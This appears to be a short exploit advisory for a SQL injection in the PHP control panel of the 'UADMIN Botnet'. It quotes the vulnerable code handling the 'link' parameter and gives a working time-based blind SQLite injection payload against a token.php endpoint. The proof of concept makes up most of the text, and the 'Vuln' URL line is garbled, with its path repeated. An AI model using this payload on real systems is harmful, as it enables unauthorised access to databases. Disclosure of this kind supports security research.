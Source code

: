 

Type: SQL Injection Vulnerability

Vuln: http://localhost/ush/gates/token.php?link=1/ush/gates/token.php?link=1

Author: n4pst3r

```
################################
# Exploit Title: UADMIN Botnet - SQL Injection Vulnerability
# Exploit Author: n4pst3r
# Vendor Homepage: unkn0wn
# Software Link: unkn0wn
# Version: unkn0wn
# Tested on: Windows 10, Kali
# CVE : n/a
################################
# Vuln-Code: download.php

$link=$_GET['link'];
$agent=esc__($_SERVER['HTTP_USER_AGENT']);

if(isset($_GET['botid'])){
    $botid=esc__($_GET['botid']);
}else{
  $botid='unknown';
};

################################
Attack Response & PoC:

---
Parameter: link (GET)
    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: link=1' OR 7990=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))-- nwGY
---

http://127.0.0.1/ush/gates/token.php?link=1
```
